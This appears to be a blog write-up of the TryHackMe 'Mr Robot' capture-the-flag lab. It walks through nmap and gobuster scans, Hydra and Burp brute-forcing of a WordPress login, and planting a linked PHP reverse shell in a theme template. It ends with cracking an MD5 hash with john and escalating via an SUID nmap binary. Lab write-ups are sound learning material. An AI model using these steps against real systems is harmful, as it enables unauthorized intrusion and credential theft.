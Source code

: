 ```yaml
---
layout: post
permalink: /posts/thm/mr-robot
title: "Mr Robot"
---
```


Scan the target machine with nmap

```
nmap -sC -sV 10.10.147.82
```

![nmap](/assets/images/thm/mr-robot/nmap.png)

Open the web page

![website](/assets/images/thm/mr-robot/website.png)

Scan the web server with gobuster:

```
gobuster dir -u http://10.10.147.82/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt 2>/dev/null
```

![gobuster](/assets/images/thm/mr-robot/gobuster.png)

Visit the robots.txt file to find the first key

![robots](/assets/images/thm/mr-robot/robots.png)

We have found the first key and a list which probably contains credentials. <br />
From the gobuster scan we can see that there is /login page let’s visit it.

![login](/assets/images/thm/mr-robot/login.png)

We can try to brute force it. Try to type some credential and catch the request with BurpSuite.

![burp](/assets/images/thm/mr-robot/burp.png)

![error](/assets/images/thm/mr-robot/error.png)

Here is the information that we need. Now we are going to use Hydra and the file that we had found from robots.txt

```
hydra -L fsocity.dic -p something 10.10.147.82 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username"
```

![hydra](/assets/images/thm/mr-robot/hydra.png)

Now we have the username: Elliot <br />

Let’s find the password

![error2](/assets/images/thm/mr-robot/error2.png)

For some reason hydra returns 0 valid passwords 

```
hydra -l Elliot -P fsocity.dic 10.10.147.82 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
```

So we’ll use burp to brute the passwords. Send new request, catch it with burp and send it to Intruder to brute force the password

![burp-brute](/assets/images/thm/mr-robot/burp-brute.png)

We are in

![dashboard](/assets/images/thm/mr-robot/dashboard.png)

Now we are going to use php reverse shell <https://github.com/pentestmonkey/php-reverse-shell>. Navigate to Appearance -> Editor and paste your reverse code in 404 template. Start nc listener on your machine.

![themes](/assets/images/thm/mr-robot/themes.png)

Now navigate to <br />

`http://10.10.147.82/wordpress/wp-content/themes/twentyfifteen/404.php`

![shell](/assets/images/thm/mr-robot/shell.png)

![ls](/assets/images/thm/mr-robot/ls.png)

Unfortunately we don’t have the permissions to read the second key but we can read the other file, let's crack the hash

```
john hash.txt --wordlist=fsocity.dic --format=Raw-MD5
```

![john](/assets/images/thm/mr-robot/john.png)

For some reason john returns the hash in capital letters. You can also use <https://crackstation.net/> to crack the hash

![crack](/assets/images/thm/mr-robot/crack.png)

![robot](/assets/images/thm/mr-robot/robot.png)

Now we are able to read the second key. <br />

Privilege Escalation 

```
find / -perm +6000 2>/dev/null | grep '/bin/'
```

![perm](/assets/images/thm/mr-robot/perm.png)

It looks we can use nmap for your privilege <https://gtfobins.github.io/gtfobins/nmap/>

![root](/assets/images/thm/mr-robot/root.png)
